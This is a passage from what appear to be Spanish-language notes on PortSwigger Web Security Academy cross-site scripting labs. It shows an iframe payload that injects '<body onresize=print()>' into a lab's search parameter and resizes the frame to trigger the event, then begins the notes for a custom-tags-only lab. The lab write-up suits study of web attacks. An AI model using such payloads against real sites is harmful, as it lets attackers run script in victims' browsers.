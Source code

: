 ![](/img2/Pasted%20image%2020250723223409.png)

> De esta forma cargamos un frame de la url con la inyección, una vez cargada la url hace un resize de la pantalla, ejecutando así el evento 'onresize'.

- Injection

```html
<iframe src="https://0a3b009o0458243d802a764800a800ca.web-security-academy.net/?search=<body onresize=print()>" onload="this.style.width='100px'">
```

## XSS reflejado con solo etiquetas personalizadas || Reflected XSS into HTML context with all tags blocked except custom ones

![](/img2/Pasted%20image%2020250724125855.png)

![](/img2/Pasted%20image%2020250724125925.png)
